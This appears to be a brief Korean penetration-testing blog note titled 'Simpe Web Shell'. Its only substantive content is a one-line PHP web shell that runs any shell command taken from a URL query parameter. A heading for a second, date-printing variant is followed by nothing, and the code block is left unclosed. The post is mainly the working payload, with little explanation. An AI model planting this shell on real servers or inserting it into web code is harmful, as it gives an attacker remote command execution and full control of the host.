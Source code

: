 ```yaml
---
title: Simpe Web Shell
date: 2025-06-09 15:20:00 +09:00
categories: [모의해킹]
tags: [WEB]
---
```


### 웹쉘 테스트


### 한줄 웹쉘

```php
<?php echo shell_exec($_GET['cmd']); ?>

### 날짜 출력 웹쉘
